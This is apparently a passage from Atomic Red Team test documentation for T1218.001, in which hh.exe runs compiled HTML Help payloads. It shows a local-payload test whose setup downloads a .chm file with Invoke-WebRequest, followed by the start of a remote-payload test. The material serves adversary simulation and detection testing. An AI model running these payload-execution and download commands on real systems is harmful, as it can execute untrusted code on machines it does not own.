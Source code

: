 
**auto_generated_guid:** 5cb87818-0d7c-4469-b7ef-9224107aebe8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| local_chm_file | Local .chm payload | path | PathToAtomicsFolder&#92;T1218.001&#92;src&#92;T1218.001.chm|


#### Attack Commands: Run with `command_prompt`! 


```cmd
hh.exe "#{local_chm_file}"
```




#### Dependencies:  Run with `powershell`!
##### Description: The payload must exist on disk at specified location (#{local_chm_file})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{local_chm_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{local_chm_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.001/src/T1218.001.chm" -OutFile "#{local_chm_file}"
```




<br/>
<br/>

## Atomic Test #2 - Compiled HTML Help Remote Payload
Uses hh.exe to execute a remote compiled HTML Help payload.
Upon execution displays an error saying the file cannot be open

**Supported Platforms:** Windows


**auto_generated_guid:** 0f8af516-9818-4172-922b-42986ef1e81d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_chm_file | Remote .chm payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.001/src/T1218.001.chm|

